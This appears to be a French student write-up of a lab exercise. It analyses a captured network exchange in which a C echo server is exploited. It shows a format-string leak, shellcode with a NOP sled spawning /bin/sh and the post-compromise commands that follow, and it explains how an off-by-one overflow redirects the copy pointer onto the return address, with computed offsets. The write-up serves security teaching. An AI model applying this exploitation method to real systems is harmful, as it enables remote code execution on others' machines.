

# Report


### Trame pcap de l'échange
```
ECHO %x%x%x%x %x
8049f6713b018 ffc39895
.................................................................q]1.1.1.1.1.1.."......f.....O....1........1.f.p.......9..9.u...<.u...1.1..?..A.?..A.?..1..m..E..E......M..U............/bin/shAAAAAAAAA
...
........
uname
Linux
chmod u+w A9826
echo 1000000 > A9826
chmod u-w A9826
exit
```

### Trame pcap de l'échange désassemblée (dans assembleur.md)

### Vulnérabilité dans le code C
```c
#define BUFFERLENGTH 200

typedef struct safeMessage_t{
  char safeBuffer[BUFFERLENGTH];  		200
  int i;								4
  int len;								4
  char *dst;							4 (taille adresse fait 32 bits, donc 4 duo de 2 hexa).
  char *src;							4 
  int debut;							4
} safeMessage;

int sanitizeBuffer(char *unsafeBuffer, char **reponse, int* fin){
  safeMessage msg;
  int res=0;
  // Fin de chaîne
  int eos=-1;

  msg.len = strlen(unsafeBuffer);
  msg.debut = 0;
  msg.src = unsafeBuffer;
  msg.dst = (char *)&(msg.safeBuffer);
  printf("Vérification d'une entrée de longueur %d\n", msg.len);

  if(msg.len > BUFFERLENGTH){
    return -BUFFERTOOLONG;
  }
  else{
    for(msg.i=0; msg.i<=msg.len; msg.i++){
#ifdef SSP
      printf("src=%p dst=%p &RET=%p RET=%x i=%d len=%d: 0x%.2x\n", msg.src, msg.dst, (&eos+65), *(&eos+65), msg.i, msg.len, (unsigned char)*(msg.src));
#else
      printf("src=%p dst=%p &RET=%p RET=%x i=%d len=%d: 0x%.2x\n", msg.src, msg.dst, (&eos+64), *(&eos+64), msg.i, msg.len, (unsigned char)*(msg.src));
#endif
      if(!isprint(*(msg.src))){
        syslog(LOG_WARNING, "Caractère non imprimable détectée");
        if(eos == -1)
          eos = msg.i;
      }
      *(msg.dst) = *(msg.src);
      msg.src++;
      msg.dst++;
    }
  }
```

La vulnérabilité se trouve dans msg.len > BUFFERLENGTH.  
En envoyant un message de la taille du buffer (=), on va donc entrer dans la boucle qui va écrire les octets du messages envoyés (pointé par msg.src) dans l'adresse de destination pointée par msg.dst. Celle-ci pointe au début sur la structure safeMessage msg décrite plus haut avec en particulier 200 octets pour le safeBuffer et les autres attributs situés à la suite.

Comme une chaine de caractère a toujours le \O à la fin pour indiquer la fin de la chaîne, le 200e octet du message envoyé va être écrit dans l'espace suivant dans la pile qui est i. Ce qui va permettre de continuer d'itérer et d'écrire dans len, puis dans msg.dst.

On écrit d'abord dans l'octet de poid faible donc on va changer les bits de poids faibles de msg.dst.  
En particulier on remarque que les 3 bits de poids forts de msg.dst sont communs avec les 3 bits de poid fort du pointeur sur l'adresse de retour. Donc en changeant l'octet de poid faible avec celui du pointeur sur l'adresse de retour (récupéré précédement), msg.dst = &RET. Et on écrira alors les prochains octets vers cette adresse, et remplacera donc l'adresse de retour.

(RQ: les 3 bits de poid forts ne sont pas les même au début mais le deviennent après 200 octets qui à force d'incrémenter ont rajouté une retenue).

(Petite précision, on change l'octet poid faible par ceux de &RET - 1  car après avoir copié on incrémente msg.src et msg.dst dans le code source pour écrire à l'octet d'après). Donc si &RET = XX XX XX 5c, on écrira 5b qui s'incémentera en 5c.)

L'adresse de retour pointe sur la prochaine instruction à exécuter à la fin de l'exécution de la fonction (quand on aura dépiler les variables locales et arguments lors de l'appel de cette fonction). On remplace l'adresse de retour par l'adresse au début de notre message (récupéré auparavant) pour que la prochaine instruction exécutée soit la première de notre message et exécute ensuite notre code malicieux.  
(Rq: On a de la marche car les premières instructions est un toboggan de nop donc on peut mettre une addresse qui tombera sur un des nopes.)

ATTENTION: bien comprendre pointeur sur l'adresse de retour et adresse de retour. Le pointeur sur l'adresse de retour est le pointeur qui indique à quelle adresse est écrite l'adresse de retour. L'adresse de retour est un pointeur vers l'adresse de la prochaine instruction à exécuter après la fonction.


### ECHO %x%x%x%x %x

Un echo doit renvoie ce qu'on lui a envoyé.  
Il y a un pb avec le sprintf qui devrait lors d'un %x écrire la variable au format %x associée mais il n'ya a pas de variable liée.  
(Comment?) Ca va renvoyer l'adresse du pointeur msg.dst à l'endroit du 1er % de "ECHO %x%x%x%x %x". Et c'est le pointeur où on écrit notre message.  
A chaque nouveau message le msg.dst recommence à partir de la même adresse, donc de cette manière on connait toujours l'adresse où on commence à écrire notre message. Qui est donc réponse - 5. 
On remarque de même que il y a toujours le même écart 0xF7 entre cette adresse retournée et &RET qui est l'adresse où se trouve l'adresse de retour. On arrive alors à déterminer l'adresse &RET de retour.



````
&RET = FF C9 2F 2C
réponse = FF C9 2E 35 (ECHO )
&(début message envoyé) = réponse - 5 = FF C9 2E 30

&RET - réponse = F7
Donc &RET = réponse + F7 (+F6 car sera incrémenté +1 après dans le code)

